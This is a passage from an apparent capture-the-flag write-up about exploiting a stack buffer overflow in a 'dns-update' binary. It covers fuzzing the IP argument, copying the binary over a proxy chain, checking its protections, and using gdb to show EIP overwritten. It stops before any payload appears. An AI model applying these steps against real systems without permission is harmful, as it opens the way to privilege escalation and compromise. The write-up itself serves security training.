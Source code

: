 We play around with the input parameters and see that when we put a long string in the IP address it causes a segmentation fault, this looks promising. We open a new terminal and we use `scp` to download a copy of the binary for analysis to determine what is actually happening when it Segmentation Faults. In addition, we do this because the server doesn't have gdb installed.

```
dnsmanager@DMZDNS:~$ /usr/sbin/dns-update example.com test 1.1.1.1
Although it works for more domains, our DNS server is only responsible for ecwi.cysca - Jeremy
The domain name is invalid
dnsmanager@DMZDNS:~$ /usr/sbin/dns-update ecwi.cyscaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA test 1.1.1.1
Although it works for more domains, our DNS server is only responsible for ecwi.cysca - Jeremy
The domain name is invalid
dnsmanager@DMZDNS:~$ /usr/sbin/dns-update ecwi.cysca infoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa 1.1.1.1
infoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa	A	1.1.1.1
Successfully added host entry to bind. Reloading Bind
 * Reloading domain name service... bind9                                                                [ OK ]
Bind reloaded successfully
dnsmanager@DMZDNS:~$ /usr/sbin/dns-update ecwi.cysca test 1.1.1.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ip address part 1 is invalid
Segmentation fault (core dumped)
```
```
root@kali:~# proxychains scp dnsmanager@172.16.5.53:/usr/sbin/dns-update .
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-172.16.5.30:3128-<><>-172.16.5.53:22-<><>-OK
dnsmanager@172.16.5.53's password:
dns-update                                                                    100% 9724     9.5KB/s   00:00
```

Once we have the ELF file on our local machine, we use the script `checksec` from http://www.trapkit.de/tools/checksec.html to determine what security mitigations are compiled in. We can see that `NX is disabled`, there is no stack canary and it is `not a PIE` (Position Independant Executable).

```
root@kali:~# ./checksec.sh --file dns-update
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   dns-update
```

We use `gdb` to execute our `dns-update`, passing in the input that caused a segmentation fault on the server. GDB pops back up after catching a SEGSEGV/Segmentation Fault.

We start diagnosing the Segmentation Fault. We look at the registers and see that `EIP` is set to `0x41414141`. It looks as though some of our A's are being used as the execution address, this is probably a buffer overflow causing an overwrite of a return address on the stack. We can confirm the root cause by breaking out a disassembler, but we are under time pressure, so lets just try gain control of EIP.

```
root@kali:~# gdb dns-update
GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
------- 8< 8< 8< SNIP --------
Reading symbols from dns-update...(no debugging symbols found)...done.
(gdb) r ecwi.cysca test 1.1.1.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ip address part 4 is invalid

Program received signal SIGSEGV, Segmentation fault.
```